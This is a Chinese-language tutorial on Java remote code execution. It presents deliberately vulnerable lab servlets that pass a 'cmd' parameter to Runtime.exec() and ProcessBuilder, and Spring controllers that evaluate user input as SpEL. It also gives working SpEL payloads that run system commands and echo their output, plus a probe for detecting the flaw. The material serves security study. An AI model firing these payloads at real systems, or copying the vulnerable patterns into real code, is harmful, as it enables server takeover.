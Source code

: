 ﻿---
title: RCE-Java
categories:
- Network_Security
- Web
- RCE-Java
tags:
- Network_Security
date: 2024-01-10 13:49:48
---

# RCE-Java

## 1. `exec()` 执行系统命令

1. 涉及函数 `Runtime.getRuntime().exec()`

2. 有漏洞的代码：
    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 使用 Runtime.getRuntime().exec() 来执行系统命令
     * @date 2023/4/4 14:34
     */
    @WebServlet("/exec")
    public class RceExecController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            String cmd = request.getParameter("cmd");
            // 给页面回显内容的变量
            StringBuilder stringBuffer = new StringBuilder();
            // 用包装类获取命令执行后的结果流
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
            // 用于记录一行内容的变量
            String lineContext;
            while ((lineContext = bufferedReader.readLine()) != null) {
                stringBuffer.append(lineContext).append("<br />");
            }
            bufferedReader.close();
            response.getWriter().println(stringBuffer);
        }
    }
    ```

3. `Runtime` 类：

    > Every Java application has a single instance of class Runtime that allows the application to interface with the environment in which the application is running. The current runtime can be obtained from the getRuntime method.

4. 该靶场运行结果如下：
    ![image-20230404145024885](image-20230404145024885.png)

## 2. `ProcessBuilder` 对象通过 `start()` 方法执行系统命令

1. 涉及的类和函数：`ProcessBuilder` 类、`ProcessBuilder` 对象的 `start()` 方法。

2. 实际上，`Runtime.getRuntime().exec()` 的本质上是调用了 `ProcessBuilder` 的 `start()` 方法：
    ![image-20230404145530933](image-20230404145530933.png)

3. 靶场：

    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 使用 ProcessBuilder.start() 来执行系统命令
     * @date 2023/4/4 14:53
     */
    @WebServlet("/pb")
    public class RcePbController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            String cmd = request.getParameter("cmd");
            StringBuilder stringBuilder = new StringBuilder();
    
            String[] cmdWithArgs = {cmd};
            // processBuilder 的实例化需要传入 list 或者 String[]，用来存放一条命令及其参数
            ProcessBuilder processBuilder = new ProcessBuilder(cmdWithArgs);
            // 执行命令
            Process process = processBuilder.start();
            // 获取被包装的 process 执行结果流
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            // 用于记录一行内容的变量
            String lineContext;
            while ((lineContext = bufferedReader.readLine()) != null) {
                stringBuilder.append(lineContext).append("<br />");
            }
            bufferedReader.close();
            response.getWriter().println(stringBuilder);
        }
    }
    ```

4. 结果：
    ![image-20230404150816050](image-20230404150816050.png)

## 3. 使用 SpEL 表达式

### 3.1 不带回显的情况

1. > Spring 官方为我们提供了一套非常高级 SpEL 表达式，通过使用表达式，我们可以更加灵活地使用 Spring 框架。

2. 使用 SpringBoot 搭建一个简易的靶场：
    ```java
    package com.endlessshw.spelrce.controller;
    
    import org.springframework.expression.Expression;
    import org.springframework.expression.spel.standard.SpelExpressionParser;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.RequestMapping;
    import org.springframework.web.bind.annotation.RestController;
    
    import java.util.Objects;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: SpEL RCE 靶场
     * @date 2023/4/4 15:15
     */
    @RestController
    @RequestMapping("/rce")
    public class SpEL_RceController {
        @GetMapping("/spel")
        public String SpELRce(String cmd) {
            // 创建一个 Spel 表达式解析器
            SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
            // 根据传入的 cmd 来创建表达式
            Expression expression = spelExpressionParser.parseExpression(cmd);
            return Objects.requireNonNull(expression.getValue()).toString();
        }
    }
    ```

3. payload:
    `http://localhost:8080/rce/spel?cmd=T(java.lang.Runtime).getRuntime().exec(%22control.exe%22)`
    cmd 传入的内容基本上和 Java 语法相似。由于 `Runtime` 是外部类，因此还需要 `T(类的全路径名).方法()` 来执行代码。
4. 结果：
    ![image-20230404153506298](image-20230404153506298.png)

### 3.2 带回显的情况 -- （少，前提是需要代码将 expression 的结果给 return 出来）

1. 上述靶场中，只使用了最基本的 SpEL 表达式解析器。如果源码中构造了上下文来丰富功能，那么攻击者此时也可以利用上下文“丰富功能”的特性，将结果打印出来。

2. 靶场代码：
    ```java
    @GetMapping("/spelcontext")
    public String SpELRceWithContext(String cmd) {
        // 创建一个 Spel 表达式解析器
        SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
        // 构造上下文，准备表达式需要的上下文数据（用于自定义变量、函数、类型转换器等）
        // Create a new TemplateParserContext with the default "#{" prefix and "}" suffix.
        // 翻译过来就是用 #{} 创建上下文环境，里面的内容就是上下文
        TemplateParserContext templateParserContext = new TemplateParserContext();
        // 根据传入的 cmd 来创建表达式
        Expression expression = spelExpressionParser.parseExpression(cmd, templateParserContext);
        return Objects.requireNonNull(expression.getValue()).toString();
    }
    ```

3. Payload（如果通过 GET 传，要 Url 编码一下）:
    `#{new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir").start().getInputStream(), "GBK").useDelimiter("x").next()};`
4. Payload 解析：
    1. 创建一个 Scanner 类
    2. 用 Scanner 的构造函数：
        ![image-20230404164227873](image-20230404164227873.png)
    3. 使用 `useDelimiter("")` 方法来划界，然后用 `next()` 方法来返回 `Scanner` 中扫描的字符串。
        这里 `useDelimiter("")` 内的内容尽量复杂，这样它分界就分一个界，然后 `next()` 获取全部内容。
5. 当然，如果出现这种情况，可以先使用 `#{算数表达式}` 来看其是否将表达式的结果返回，从而判断其是否存在 RCE：
    Payload：`#{2+2}`（记得 Url 编码）
    ![image-20230404165810531](image-20230404165810531.png)

